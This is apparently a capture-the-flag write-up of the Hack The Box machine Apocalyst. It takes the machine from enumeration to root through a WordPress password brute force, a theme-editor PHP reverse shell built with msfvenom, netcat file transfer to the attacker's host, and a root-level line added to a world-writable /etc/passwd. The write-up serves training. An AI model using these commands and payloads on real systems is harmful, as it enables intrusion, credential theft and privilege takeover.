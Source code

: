 ![logo](/logo.png)

# [Apocalyst- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 18 Aug 2017 machine on HTB,Apocalyst created by [Dosk3n](https://app.hackthebox.com/users/4987).So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *steghide
  *Wordpress
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/apocalyst 10.10.10.46
```

###### Output 

![](/Linux/Linux-Medium/Apocalyst/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/apocalyst 10.10.10.46                                                                                       ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-02 19:45 EAT
Nmap scan report for 10.10.10.46
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
|   256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
|_  256 12:12:cf:f1:7f:be:43:1f:d5:e6:6d:90:84:25:c8:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apocalypse Preparation Blog
|_http-generator: WordPress 4.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.48 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache server`. 

port[22]-ssh
port[80]-  httpd 2.4.18

so when we go the browser at [http://10.10.10.46](http://10.10.10.46) i find a blog web-browser.

![](/Linux/Linux-Medium/Apocalyst/Screenshots/browser.png)

so lets add the `hostname` to `/etc/hosts`

I find nothing od interesting so lets start gobuster so that I can be able to enumerate active directories. 

```sh
gobuster dir -u http://10.10.10.46 -w /usr/share/wordlists/dirb/common.txt -k --no-error
```


![](/Linux/Linux-Medium/Apocalyst/Screenshots/gobuster.png)

i find a bunch of directories  but the sizes seem to be the same as their is nothing significant so i will use `cewl` to make a wordlist from the content of the website.

```sh
cewl 10.10.10.46 > wordlist.txt
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/cewl.png)

```sh
gobuster dir -u http://10.10.10.46 -w wordlist.txt -k --no-error
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/rightiousness.png)

lets download the image, however the Rightiousness directory has a larger response size.
Browsing to it reveals only an image

```sh
wget http://10.10.10.46/Rightiousness/image.jpg
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/download.png)

# Exploitation

running steghide against it with a blank passphrase will output a list.txt file, which is a list of random words of varying languages.

```sh
steghide extract -sf image.jpg
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/steghide.png)

The list seem to be a wordlist of passwords so lets bruteforce the with the user from the blog 

```sh
wpscan --url http://10.10.10.46 --passwords list.txt --usernames falaraki
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/foundpasswd.png)

lets use thi credentials to log into the admin once we login 

![](Linux/Linux-Medium/Apocalyst/Screenshots/login.png)

Browse to `Appearance > Editor` on the admin panel, and select the file `Single Post (single.php)`.From here, it is possible to replace the contents of the file with the PHP reverse shell.  So lets create a payload

```sh
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.15 lport=1338 -f
raw > writeup.php
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/msfvenom.png)

or you can use a `php revershell` from and browing to any post leds to a shell 

![](/Linux/Linux-Medium/Apocalyst/Screenshots/revershshell.png)

![](Linux/Linux-Medium/Apocalyst/Screenshots/shell.png)

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

to check for colums and rows in you machine run

```sh
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/stty.png)

we can get the user flag on 

![](/Linux/Linux-Medium/Apocalyst/Screenshots/userflag.png)

so lets run `LinEnum` so that we can get possible `privsec`

![](/Linux/Linux-Medium/Apocalyst/Screenshots/linenum.png)

Running LinEnum on the machine reveals that the `/etc/passwd` file is world-writeable. By adding
a new line to the file, it is possible to create a new user that is part of the root group. However,
switching to this user requires an interactive session.

so let take the `.secret` to our local machine so that we can run strings on it.

```sh
cp .secrete /dev/shm
cd /dev/shm
nc -w 5 10.10.14.15 8003 < .secret 
```

```sh
nc -nvlp 8003 > .secret
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/bs64.png)

By running `strings` on the file `/home/falaraki/.secret`, a Base64-encoded string. Decoding the string reveals the `password` for the falaraki user.

![](/Linux/Linux-Medium/Apocalyst/Screenshots/decodeing.png)

![](/Linux/Linux-Medium/Apocalyst/Screenshots/falaraki.png)

```sh
writeup:$6$gUo4KFHI$WA8mYODvtKWzjxiwc3Nt6QyBFlhpTAODDCRJb5ORHlpOU1Lc5Rdg
Sb5psFzNkhmgMcPn7eCSrt1izT0a7S2LJ1:0:0:root:/root:/bin/bash
```

![](Linux/Linux-Medium/Apocalyst/Screenshots/etcpasswd.png)

Afterwards, `su writeup` (with the `password writeup`) will grant a root shell.

![](/Linux/Linux-Medium/Apocalyst/Screenshots/rootshell.png)

![](/Linux/Linux-Medium/Apocalyst/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------



